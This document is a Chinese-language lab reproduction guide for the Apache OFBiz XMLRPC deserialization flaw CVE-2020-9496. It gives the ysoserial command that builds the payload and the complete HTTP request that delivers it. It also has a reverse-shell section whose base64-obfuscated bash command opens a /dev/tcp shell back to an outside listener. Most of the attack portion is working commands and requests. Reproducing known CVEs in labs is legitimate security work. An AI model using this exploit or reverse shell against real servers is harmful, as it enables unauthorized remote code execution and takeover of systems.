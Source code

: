 # Apache OfBiz 反序列化命令执行漏洞 CVE-2020-9496

## 漏洞描述

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其 17.12.04 版本之前的 XMLRPC 接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 17.12.01 版本：

```
docker-compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/myportal/control/main` 查看到登录页面，说明环境已启动成功。

![image-20220228132653236](images/202202281326342.png)

## 漏洞复现

由于默认情况下没有报错信息，所以使用 [参考链接2](https://github.com/dwisiswant0/CVE-2020-9496) 中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用 [ysoserial](https://github.com/frohoff/ysoserial) 的 CommonsBeanutils1 来生成 Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![image-20220228134051709](images/202202281340980.png)

将 base64 后的 payload 替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![image-20220228134410175](images/202202281344325.png)

进入容器中，可见 `touch /tmp/awesome_poc` 已成功执行：

![image-20220228134307506](images/202202281343563.png)

### 反弹 shell

要进行两遍 base64 编码：

```
java -jar ysoserial.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMS4xMzIvMjI1OSAwPiYx}|{base64,-d}|{bash,-i}" | base64 | tr -d "\n"
```

发送数据包，在 VPS 上监听反弹 shell：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: 172.16.10.22:8443
Cookie: OFBiz.Visitor=10103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 2401

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[Base64 Payload Here]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
